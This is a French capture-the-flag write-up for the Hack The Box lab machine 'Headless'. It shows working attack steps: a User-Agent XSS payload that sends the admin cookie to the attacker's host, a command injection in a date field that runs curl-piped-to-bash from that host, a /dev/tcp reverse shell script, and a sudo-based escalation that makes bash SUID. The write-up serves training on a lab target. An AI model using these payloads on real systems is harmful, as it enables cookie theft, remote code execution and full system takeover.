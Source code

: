   # Headless

	echo "10.10.11.8 headless.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.8 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.8 -oN nmap.txt
	feroxbuster --silent -u http://headless.htb:5000
	
Scans classiques.

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
    5000/tcp open  upnp?

http://10.10.11.8:5000/support => Formulaire de contact
<br>http://10.10.11.8:5000/dashboard => 401


En mettant le payload "#{}()[];<>&/" dans le message, un pop-up apparaît pour me signifier qu'une tentative d'intrusion a été détectée et que tout cela a été envoyé à l'administrateur. Cela ressemble à un scénario de XSS ou de CSRF. On peut aussi observer le cookie "is_admin" en bas.

C'est une simple XSS dans le user-agent avec exfiltration de cookie : 

    User-Agent: <img+src%3dx+onerror%3dfetch('http%3a//10.10.16.110%3a8000/'%2bdocument.cookie)%3b>

Après quelques temps, on reçoit bien le cookie de l'administrateur : 

    10.10.11.8 - - [24/Mar/2024 12:55:33] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -

On peut se connecter au dashboard avec ce cookie.

L'étape d'après est une simple injection de commande dans cette même page : 

    date=2023-09-15;curl http://10.10.16.110/rev.sh|bash

Fichier rev.sh : 

    #!/bin/bash
    /bin/bash -c 'exec bash -i &>/dev/tcp/10.10.16.110/9999 <&1'

On obtient bien le shell au bout de quelques secondes : 

    cat /home/dvir/user.txt


## Élévation de privilèges

	sudo -l

>    (ALL) NOPASSWD: /usr/bin/syscheck

    cat /usr/bin/syscheck
    echo "chmod 4777 /bin/bash" > initdb.sh
    chmod +x initdb.sh
    sudo syscheck
    /bin/bash -p
	whoami
	cat /root/root.txt
